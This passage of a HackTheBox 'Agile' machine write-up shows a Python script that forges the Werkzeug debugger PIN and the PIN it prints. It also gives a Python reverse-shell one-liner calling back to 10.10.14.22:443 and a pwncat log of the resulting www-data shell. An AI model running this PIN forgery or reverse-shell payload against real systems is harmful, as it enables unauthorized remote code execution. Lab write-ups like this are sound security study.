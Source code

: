 ```python

h = hashlib.sha1() # Newer versions of Werkzeug use SHA1 instead of MD5
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print("Pin: " + rv)
```

```apacheconf
msplmee@kali:~$ python crack_pin.py 
Pin: 428-436-810
```

### Shell

I get reverse shell with payload from [Revshells](https://www.revshells.com/)

{% code overflow="wrap" %}
```python
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

On sending this, I get a shell at my `pwncat`

{% code overflow="wrap" %}
```apacheconf
msplmee@kali:~/HTB/Machine/Agile$ pwncat-cs -l -p 443                                 
[04:18:16] Welcome to pwncat 🐈!                                                                                                                                              
[04:19:01] received connection from 10.10.11.203:41812                                                                                                                             
[04:19:02] 10.10.11.203:41812: registered new host w/ db                                                                                                                       
(local) pwncat$                                                                                                                                                                              
(remote) www-data@agile:/app/app$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```